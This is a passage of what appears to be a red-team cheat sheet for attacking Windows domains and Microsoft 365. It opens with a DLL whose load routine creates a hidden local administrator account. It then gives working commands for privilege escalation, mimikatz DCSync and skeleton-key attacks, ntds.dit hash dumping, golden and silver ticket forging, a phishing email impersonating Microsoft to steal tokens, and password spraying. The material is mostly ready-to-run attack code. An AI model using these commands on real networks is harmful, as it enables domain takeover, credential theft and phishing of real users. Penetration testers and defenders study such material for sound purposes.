BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave3 password123! /add");
  	    i = system ("net localgroup administrators dave3 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
now, cross compile
``` bash
x86_64-w64-mingw32-gcc mal.cpp --shared -o SharedLib.dll
```

</details>

<details>
<summary> group policy preferences file </summary>

msft publishes the [AES key](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be)
``` powershell
# find cpassword under the sysvol share in any xml file
Get-ChildItem -Path "$env:LOGONSERVER\sysvol" -Filter *.xml -Recurse | Select-String "cpassword"
```
</details>

<details>
<summary>Recovering Credentials from a PXE Boot Image</summary>
</details>

<details>
<summary>always install elevated registry setting </summary>

``` bat
rem This will only work if both registry keys contain "AlwaysInstallElevated" with DWORD values of 1.
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```
</details>

<details>
<summary> unattended install files</summary>

``` powershell
# unattended install files typically in these locations
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\windows\sysprep\sysprep.inf
c:\windows\sysprep\sysprep.xml
c:\windows\system32sysprep\Unattended.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml
```
</details>

<details>
<summary>Exploits</summary>

privileges that may lead to privilege escalation are SeBackupPrivilege, SeAssignPrimaryToken, SeLoadDriver, and SeDebug and SeImpersonatePrivilege.

check for kernel vulns from microsoft https://msrc.microsoft.com/update-guide

``` bat
rem look for user privileges 
whoami /priv
whoami /all

rem get system info and patch info 
systeminfo
Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }
```
</details>

## Domination

<details>
<summary> DCSync </summary>

``` bat
rem using mimikatz, extract the krbtgt hash via replication using the Directory Replication Service Remote (DRSR) Protocol
lsadump::dcsync /user:krbtgt
```
</details>

<details>
<summary> skeleton key </summary>

``` bat
rem using mimikatz, a skelton key can be loaded into memory on a domain controller that allows anyone to authenticate as any user in the domain with the password "mimikatz"
privilege::debug
misc::skeleton
```
</details>

<details>
<summary> extract ntds.dit oneliner </summary>

``` bat
ntdsutil "ac in ntds" "ifm" "cr fu c:\mybackup" q q
```
</details>

<details>
<summary> extract ntds.dit (to be used for golden ticket) </summary>

target machine (domain controller):
``` bat
rem as administrator on a domain controller, list shadow copies
vssadmin.exe list

rem if no existing copies, create one. 
vssadmin.exe create shadow /for=c:

rem copy the ntds.dit file from the shadoy copy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit c:\temp\ntds.dit

rem in order to extract hashes from ntds.dit you need the encryption key from the system hive. save the key from the registry:
reg save hklm\system c:\temp\system /y
```
attacker machine:
``` bash
# now, extract the ntds.dit and system files from the dc (use smbclient.py or whatever works). Once obtained, on the attacker machine, dump hashes
secretsdump.py -ntds ~/ntds.dit -system ~/system -outputfile hashes.txt LOCAL

# alternatively, you could do all of the above remotely using secretsdump.py. specifically here, were looking for the krbtgt hash
secretsdump.py domain.com/username:'password'@10.20.10.10 -just-dc-user krbtgt

# --------- with the above hashes, we can conduct the following golden ticket attack --------- #

# get the SID for the domain (stop lookup after enumerating to 520)
lookupsid.py domain.com/username:'password'@10.20.10.10 520

# armed with the domain SID and the krbtgt AES key, we can create a golen ticket
ticketer.py -domain domain.com -domain-sid S-1-5-21-XXXXXXXXX-YYYYYYYYY -aesKey AES_KEY_HERE Administrator

# export the ticket to later be used by impacket 
export KRB5CCNAME=Administrator.ccache

# use the ticket with impacket against a fileserver on the domain and run a command remotely
wmiexec.py -k -no-pass -dc-ip 10.20.10.10 file01.domain.com hostname
```
</details>

<details>
<summary> silver ticket </summary>

``` bat
rem like above, obtain the domain SID
lookupsid.py domain.com/username:'password'@10.20.10.10 520

rem in this case, we want to obtain the aes256 hash for a computer account (in this case file01$)
secretsdump.py domain.com/username:password@10.20.10.10 -just-dc-user file01$

rem using rubeus (could also use ticketer) generate the ticket for the SMB service on the fileserver
Rubeus.exe sliver /service:cifs/file01.domain.com /aes256:HASH_G0ES_HERE /sid:S-1-5-21-XXXXXXX-YYYYYYYY-ZZZZZZZ /ptt /user:username

rem ensure the kerberos ticket has been loaded into local memory 
klist

rem now, try to hit access the server
dir \\file01.domain.com\c$

rem in this example, we can instead forge a ticket for a different "serviceclass" (we did cifs before) that lets us query the target's event logs using an arbitrary username and user id
Rubeus.exe sliver /service:host/file01.domain.com /aes256:HASH_G0ES_HERE /sid:S-1-5-21-XXXXXXX-YYYYYYYY-ZZZZZZZ /ptt /user:anything /id:777

rem now query the event logs
wevutil /r:file01.domain.com qe Security "/q:*[System/EventID=4624] and *[EventData/Data[@Name='TargetUserName'='anything']" /f:text /c:1

```

</details>

## Microsoft O365
<details>
<summary> AADInternals </summary>

``` powershell
# conduct azure recon on given domain name
Invoke-AADIntReconAsOutsider -DomainName domain.com | Format-Table

# pass list of users to verify valid usernames
Get-Content .\users.txt | Invoke-AADIntUserEnumerationAsOutsider -Method Normal

# Send a phishing email to recipients using customised message and save the tokens to cache
$message = 'Dear recipient, <br> Your Microsoft account has been compromised. Login at <a href="{1}">https://microsoft.com</a> to reset your password. <br> Use the following security code: <b>{0}</b>.' 
Invoke-AADIntPhishing -Recipients "wvictim@domain.com","wvictim2@domain.com" -Subject "Your Microsoft account is compromised - Actions required." -Sender "Johnny Carson <jc@somewhere.com>" -SMTPServer smtp.myserver.local -Message $message -SaveToCache

# open a user's mailbox using the tokens you just obtained from previous phishing
Open-AADIntOWA
```
</details>

<details>
<summary> Password Spraying Azure </summary>

``` bash
# use trevorspray to get the token endpoint
trevorspray --recon domain.com

# spray passwords against known users
trevorspray --users /tmp/users.txt --passwords /tmp/passwords.txt --url 'https://login.windows.net/TENANT-ID/oauth2/token'

```
</details>

<details>
<summary> GraphRunner </summary>

``` powershell
# obtain a devicelogin token to use in a phishing email
Get-GraphTokens

# check security groups using the auth tokens obtained from prior phishing attack
Get-SecurityGroups -Tokens $tokens

# identify dynamic security groups to possibly use for privelege escalation
Get-DynamicGroups -Tokens $tokens
```
</details>